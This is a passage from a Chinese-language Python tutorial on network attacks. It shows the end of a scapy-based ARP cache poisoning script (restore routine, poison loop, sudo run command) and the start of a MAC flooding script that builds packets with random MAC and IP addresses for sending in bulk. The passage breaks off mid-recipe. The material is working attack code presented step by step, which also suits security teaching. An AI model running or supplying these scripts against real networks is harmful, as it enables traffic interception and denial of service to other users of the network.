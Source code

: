 ```py
def restore(gateway_ip,gateway_mac,target_ip,target_mac):
    print("Restoring target...")
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=100)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=100)
    print("Target Restored...")
    sys.exit(0)
```

1.  然后，我们可以开始发送数据包：

```py
try:
    poison(gateway_ip, gateway_mac,target_ip,target_mac)
except KeyboardInterrupt:
    restore(gateway_ip,gateway_mac,target_ip,target_mac)
    sys.exit(0)  
```

1.  以所需的权限运行脚本：

```py
sudo python3 arp-cache-poisoning.py  
```

# MAC 洪泛

我们可以通过在网络上传送随机的以太网流量来填充路由器的 MAC 地址存储。这可能导致交换机故障，并可能开始将所有网络流量发送给连接到路由器的所有人，或者可能失败。

# 如何做...

以下是淹没路由器 MAC 地址存储的步骤：

1.  创建一个`mac-flooder.py`文件并在您的编辑器中打开。

1.  导入所需的模块：

```py
import sys
from scapy.all import *  
```

1.  定义要淹没的`interface`。我们也可以从参数中获取它：

```py
interface = "en0"  
```

1.  创建具有随机 MAC ID 和随机 IP 的数据包：

```py
pkt = Ether(src=RandMAC("*:*:*:*:*:*"), dst=RandMAC("*:*:*:*:*:*")) / \
        IP(src=RandIP("*.*.*.*"), dst=RandIP("*.*.*.*")) / \
        ICMP()

```
